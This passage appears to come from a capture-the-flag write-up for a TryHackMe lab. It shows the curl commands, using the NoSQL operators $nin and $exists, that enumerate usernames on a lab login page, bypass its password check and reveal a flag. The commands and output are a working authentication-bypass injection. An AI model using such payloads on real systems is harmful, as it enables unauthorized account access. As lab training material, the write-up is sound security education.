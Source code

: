 Finally after 18 iterations of the `curl` command I enumarted the following usernames:
```
Frostbite
Snowballer
Slushinski
Blizzardson
Tinseltooth
Snowbacca
Grinchowski
Scroogestein
Sleighburn
Northpolinsky
Frostington
Tinselova
Frostova
Iciclevich
Frostopoulos
Grinchenko
Snownandez
Frosteau
```
It was not possible to retrieve any further usernames, so I am assuming that this list is comprehensive, but nevertheless the `curl` request that returned `Frosteau` had a significantly larger file size - so that is most probably the user we should be looking at.

The final curl command I used was:

```
curl -u 'admin:Y3<R E D A C T E D>n' -s http://10.10.106.239:8080/login.php -X POST -d 'username[$nin][0]=Frostbite&username[$nin][1]=Snowballer&username[$nin][2]=Slushinski&username[$nin][3]=Blizzardson&username[$nin][4]=Tinseltooth&username[$nin][5]=Snowbacca&username[$nin][6]=Grinchowski&username[$nin][7]=Scroogestein&username[$nin][8]=Sleighburn&username[$nin][9]=Northpolinsky&username[$nin][10]=Frostington&username[$nin][11]=Tinselova&username[$nin][12]=Frostova&username[$nin][13]=Iciclevich&username[$nin][14]=Frostopoulos&username[$nin][15]=Grinchenko&username[$nin][16]=Snownandez&password[$exists]=true' -L -c cookie -w 'Size: %{size_download}\n' | grep -e Welcome -e Size
```

Which gave me the following output:
```
<h1 class="text-3xl font-bold leading-tight text-center text-gray-100 ">Welcome Frosteau!</h1>
Size: 13899
```


And now that we know that we're interested in retrieving `Frosteau`'s dashboard we can clean up this `curl` command to the following:
```
curl -u 'admin:Y3<R E D A C T E D>n' -s http://10.10.106.239:8080/login.php -X POST -d 'username=Frosteau&password[$exists]=true' -L -c cookie 
```

Finally we are served `Frosteau`'s dashboard which - luckily for us - includes the contents of `yetikey2.txt` in cleartext in his 'Important Notes' section

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/2689690b-8ea5-4594-80c2-9e2e36f0a32e)
